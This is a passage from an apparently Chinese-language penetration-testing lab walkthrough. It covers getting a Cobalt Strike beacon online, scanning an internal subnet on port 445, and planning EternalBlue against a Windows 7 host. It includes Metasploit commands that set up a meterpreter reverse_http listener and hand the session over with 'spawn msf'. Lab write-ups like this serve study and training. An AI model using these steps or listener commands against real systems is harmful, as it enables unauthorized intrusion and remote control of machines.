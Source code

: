 ![截图](2d5904cf881acfe779fec5942b6c7849.png)

![截图](39d284711262bd74e6912d59fea337af.png)

而后，我们将直接利用命令上线cs！！！

![截图](bd913ba6f8d4f26afabfb432cec24dfc.png)

![截图](96b59296514431cf81ee9fd8179a67f1.png)

然后，复制payload并执行！

![截图](2e31be05a7da5a5b7d46da5625419e43.png)

发现上线！！！！

![截图](611ec7eb3819ea9fd2a205176001a578.png)

### 3、内网渗透

#### 1）webserver网络探测

我们首先查看一下当前的网卡

![截图](53ee97e5ddd6c65377647428f427d97b.png)

有两个网卡，其中10.10.20.0这个就是内网的网段！ 然后我们选中内网网卡并扫描一下445端口，看一下存活的主机有哪些。

![截图](98a1fccf619c8fd0205a1e126fa7a694.png)

发现了有两个主机存活。其中12是我们自己，那么7就是另一台主机，也就是win7了！

#### 2）入侵win7

这里我们可以直接考虑到使用著名的永恒之蓝漏洞进行尝试！

为了方便，这里我们将权限移交到msf上进行操作：

开启监听器：

![截图](1d7ddcfd3fef29c29a0c27449e3ef19f.png)

开启msf：

```shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

在cs上移交权限：

```shell
spawn msf
```
